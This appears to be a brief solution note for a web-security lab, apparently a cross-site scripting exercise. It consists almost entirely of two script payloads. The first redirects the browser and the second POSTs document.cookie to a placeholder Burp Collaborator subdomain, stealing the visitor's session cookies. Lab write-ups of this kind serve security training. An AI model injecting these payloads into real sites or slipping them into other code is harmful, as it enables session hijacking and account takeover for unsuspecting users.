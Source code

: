 ### Solved using:

```
<script>document.location="http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net?"+document.cookie;</script>
```

### Solution:

```
<script>
fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script> 
```
